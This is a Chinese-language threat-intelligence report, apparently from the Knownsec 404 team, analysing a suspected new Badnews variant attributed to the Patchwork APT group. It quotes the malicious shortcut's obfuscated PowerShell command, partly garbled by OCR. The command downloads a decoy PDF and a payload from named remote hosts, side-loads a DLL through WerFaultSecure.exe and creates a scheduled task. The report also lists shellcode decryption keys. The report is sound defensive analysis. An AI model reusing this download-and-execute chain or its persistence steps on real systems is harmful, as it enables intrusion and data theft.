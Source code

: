 # 威胁情报|APT-Patchwork组织测试Badnews新变种?  

原创404高级威胁情报知道创宇404实验室2024年09月30日14:38湖北  

作者：知道创宇404高级威胁情报团队时间：2024年9月30日  

## 1分析概述  

近期，知道创宇404高级威胁情报团队在分析过程中发现一个与Patchwork组织历史TTP极其相似的样本，该样本使用Patchwork常用的donut加载执行最终的载荷。最终载荷与该组织已知的武器badnews在代码方面存在大量重合，相比老版本的badnews具备以下特点：  

1）使用base64+Salsa20进行数据加密。  
2)在badnews的基础上进行了功能插件化。  
3)去除了badnews部分已知的流量及文件检测特征。  

基于上述特点我们将其归为badnews新变种，经过分析还发现攻击者下发的诱饵文件为空白PDF文档，同时我们大胆推测该样本或为Patchwork内部人员进行武器更新而提交的测试样本。  

以下将对该样本进行详细分析。  

Patchwork(摩诃草、白象)是一个来自南亚地区的APT组织，因其攻击活动中频繁使用各种开源工具而得名。该组织自2015年以来，长期针对中国、巴基斯坦等亚洲国家政府、医疗和科研等领域展开窃密攻击活动。  

### 3.1攻击链  

根据分析，整体攻击链如下图：  

![](https://cdn-mineru.openxlab.org.cn/extract/8a2ca4cf-4de2-41d6-9c98-6e788798b6b2/6ec8dc87bf74f1463ba112aa04c613da72c23aefef0a8f84f717582850e19dc1.jpg)  
攻击链  

### 3.2样本执行流程  

初始样本其指令参数解析如下图：  

RelativePath:..\..\..\windows\System32\conhost.exe Arguments: powershell \$ProgressPreference ='SilentlyContinue':i""w'r https://jihang.scapematic.info/eqhgrh/uybvjxosg OutFile C:\ProgramData\186523.pdf;s'a''p's C:\ProgramData\186523.pdf;i'rhttps://shianchi.sCapematic.info/jhgfd/jk hxvcf-OutFile"C:\ProgramData\hal";r'e'n-Path"C:\ProgramData\hal"-NewNane"C:\ProgramDataV tSeebuolos ASystea32\WerFaultSecure.exeC:ProgramData\WerFaultecure.execp\*"C:ProgramData\186523.pdKstinationt a"'s'\*ks /c'\*r''e''a''te /s"'c minute /T'n Edgeupdate /t\*\*r'C:\ProgramData\WerFaultSecure'/fe''a''s'e \*d?.?n?  

## Ink指令解析  

Ink指令主要功能为：  

1.从下载服务器下载诱饵文档并存储然后运行诱饵文档。  
2.从下载服务器下载恶意载荷并存储为C:\ProgramData\hal，将其重命名为"C:\ProgramData\wer.dll"。  
3.从系统目录复制WerFaultSecure.exe到wer.dll同目录。  
4.创建计划任务，计划任务运行WerFaultSecure.exe。  
5.删除原文件。  

wer.dll被加载后解密出shellcode，解密相关参数如下  

Key: "Keet96vUkMdJThac" IV: "ivnpFrlCQCEKkICi" 解密流程为base64-AES-base64:  
